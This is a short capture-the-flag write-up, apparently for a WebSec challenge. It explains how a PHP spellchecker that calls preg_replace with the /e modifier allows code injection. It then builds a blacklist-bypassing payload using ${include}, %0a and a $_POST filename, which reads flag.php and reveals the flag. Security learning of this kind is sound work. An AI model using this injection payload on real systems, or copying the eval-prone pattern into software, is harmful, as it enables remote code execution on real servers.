

Here we can see it uses this line:
```php
$corrected = preg_replace ("/([^$blacklist]{2,})/ie", 'correct ("\\1")', $q);
```

The problem here is the `/e`, with the fact we can insert our input into correct. So, basiclly what happens is: `eval(correct('userInput'))`, which can lead us to RCE :)

So, let's build our payload: 
We want to include `flag.php` and echo `$flag`, however, we can't use: ``["'", '"', '(', ')', ' ', '`']``. So, let's try bypassing:
1. Execute include by running: `${include 'flag.php'}`, using `${}`.
2. Using `%0a` instead of `' '`. 
3. Using params to give strings, like: `$_POST[filename]`, and then add to the query `&filename=flag.php`

### Constructing

q = `${include + %0a + $_POST[filename]} + $flag + &filename=flag.php` -> `${include%0a$_POST[filename]}$flag&filename=flag.php` 



**Flag:** ***`WEBSEC{Writing_a_sp3llcheckEr_in_php_aint_no_fun}`*** 
